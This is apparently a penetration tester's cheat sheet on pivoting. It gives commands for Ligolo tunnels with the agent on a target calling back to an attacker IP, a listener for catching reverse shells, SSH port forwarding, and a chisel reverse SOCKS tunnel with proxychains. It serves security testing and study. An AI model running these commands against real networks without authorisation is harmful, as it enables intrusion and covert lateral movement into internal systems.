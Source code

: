 ### Ligolo
###### This is great for tunneling to another internal network.
```
#Create network interface for ligolo
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

#Start proxy on your machine
./lin-proxy -selfcert -laddr 0.0.0.0:7000

#Start agent on target machine
./lin-agent -connect <attacker IP here>:7000 -ignore-cert
./win-agent -connect <attacker IP here>:7000 -ignore-cert

#Add network routes on your machine
sudo ip route add <ip-add>/24 dev ligolo

#Start ligolo session and start routing traffic
session
start

==============================================================================================

#To add a listener to catch traffic from the further internal network back to your host.
#Good for transferring files and catching rev shells.

#Enter session on host.
session

#Add listener
#Anything sent to this host on port 1234 will go to our kali on 4444.
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444

#Check lisener is active
listener_list

```

### Port Forwarding

###### This is great for forwarding just one local port on the target to your machine.

#### Local
```
#Forwards a port from a remote machine to your kali machine.
#Run this on the kali machine.
ssh -L <kali_port>:localhost:<target_port> <target_username>@<target_ip>

#Check if the port is listening (run on both target and host.)
ss -ntplu

#Target port examples
mysql -h localhost -p <target_port>
curl http://localhost:<target_port>
```

#### Dynamic Remote
This is good for reaching multiple internal local ports.

```
#On your machine
chisel server --port 80 --reverse

#On the target machine
chisel client <kali_ip>:80 R:socks > /dev/null 2>&1 &

#Add to /etc/proxycahins4.conf file
socks5	127.0.0.1 1080

#Sending traffic (can also configure foxy proxy too.)

#For reaching ports on that host
proxychains <command> <localhost>:<target_port>

#For reaching ports on the wider internal network
proxychains <command> <int_host>:<target_port>
```


